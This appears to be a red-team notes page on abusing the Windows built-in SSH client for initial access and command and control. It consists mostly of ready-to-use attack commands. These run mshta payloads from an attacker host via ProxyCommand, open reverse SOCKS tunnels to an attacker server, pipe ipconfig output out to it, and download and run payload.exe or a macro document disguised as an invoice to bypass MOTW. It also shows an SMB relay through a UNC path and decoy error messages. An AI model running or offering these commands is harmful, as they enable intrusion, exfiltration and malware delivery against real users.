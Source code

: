 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-foreign-land
  - living-off-the-land
  - windows
---
```

# Remote Clients

## SSH

## Common Files

```
C:\Windows\System32\OpenSSH\ssh.exe
```

### Payload Execution

```
C:\> ssh.exe -o ProxyCommand="powershell.exe powershell.exe ('mshta.exe http[s]://<attacker_IP>/payload.txt')" .
```

You can include make a decoy using [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x09 - Miscellaneous/Troll/Windows/Manual/Living off the Land|messagebox]].

```
C:\> ssh.exe -o ProxyCommand="cmd.exe /c <commands> & msg.exe * Error 0x4e23a: Incomplete File."
```

### Reverse Tunneling SOCKS Proxy

> [!INFO] Configuring SSH Server
> Refer to this [[04 - Remote Port Forwarding|section]] for remote port forwarding to configure the user without any requirement for authentication.

Instead of dropping malware instead we'll use `proxychains` or `privoxy` with the SSH server (the attacker's server) as the command and control which is legitimate, safer, and more familiar performing things remotely. This is considered as a non-malware payload.

```
C:\Windows\System32\OpenSSH\ssh.exe [-p <PORT>] -NTfCqR [127.0.0.1:]<SOCKS_proxy> -o "StrictHostKeyChecking=no"
%SYSTEMDIRECTORY%\OpenSSH\ssh.exe [-p <PORT>] -NTfCqR [127.0.0.1:]<SOCKS_proxy> -o "StrictHostKeyChecking=no"
```

In the SSH server we should see a listening port of the SOCKS Proxy.

```
$ ss -antpl
```

However, there is a limitation since it contains no limitation. To resolve this issue you must perform local enumeration to gather information of the compromised target that was established via SSH. Include a shell scripting file or a custom dropper containing commands to automate the process. It doesn't have to be all of them but the more the better. At least collect the IPv4 address.

```
ipconfig /all | C:\Windows\System32\OpenSSH\ssh.exe [-p <PORT>] "cat - > %COMPUTERNAME%_IP_configuration.txt"
ipconfig /all | %SYSTEMDIRECTORY%\OpenSSH\ssh.exe [-p <PORT>] "cat - > %COMPUTERNAME%_IP_configuration.txt"
```

### Download File and Execute

Transfer file to the system.

```
C:\Windows\System32\OpenSSH\ssh.exe [-p <PORT>] -o "StrictHostKeyChecking=no PermitLocalCommand=yes" -o "LocalCommand=scp [-P <PORT>] <username>@<attacker_IP>:payload.exe %AppData%\Microsoft\Templates\payload.exe\. && %APPDATA%\Microsoft\Templates\payload.exe" <username>@<attacker_IP>
```

TODO: This can be used to transfer embedded macro document to bypass MOTW.

```
C:\Windows\System32\OpenSSH\ssh.exe [-p <PORT>] -o "StrictHostKeyChecking=no PermitLocalCommand=yes" -o "LocalCommand=scp [-P <PORT>] <username>@<attacker_IP>:macro_document.doc %AppData%\Microsoft\Templates\invoice.doc\. && %APPDATA%\Microsoft\Templates\invoice.doc" <username>@<attacker_IP>
```

### SMB Relay

For SSH server it doesn't to be from an attacker side. It can a real one as long the UNC path is set in order to execute command to perform SMB relay attack.

```
C:\> ssh -i \\<attacker_IP>\key.pem root@<IP>
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Cross Platform/Network Ports/SSH/Usage|File Transfer: SCP]]

### LOLBAS

- [LOLBAS: SSH](https://lolbas-project.github.io/lolbas/Binaries/Ssh/)

### Bitsadmin

- [BITSADMIN Blog: Living Off the Foreign Land](https://blog.bitsadmin.com/living-off-the-foreign-land-windows-as-offensive-platform)

### RedSiege

- [RedSiege: SSHishing - Abusing Shortcut Files and the Windows SSH Client for Initial Access](https://redsiege.com/blog/2024/04/sshishing-abusing-shortcut-files-and-the-windows-ssh-client-for-initial-access/)

### JumpSec

- [JumpSec: SSH Tunnelling to Punch Through Corporate Firewalls - Updated take on one of the oldest LOLBINs](https://labs.jumpsec.com/ssh-tunnelling-to-punch-through-corporate-firewalls-updated-take-on-one-of-the-oldest-lolbins/)

- [JumpSec: Bring Your Own Trusted Binary (BYOTB) - BSides Edition](https://labs.jumpsec.com/bring-your-own-trusted-binary-byotb-bsides-edition/)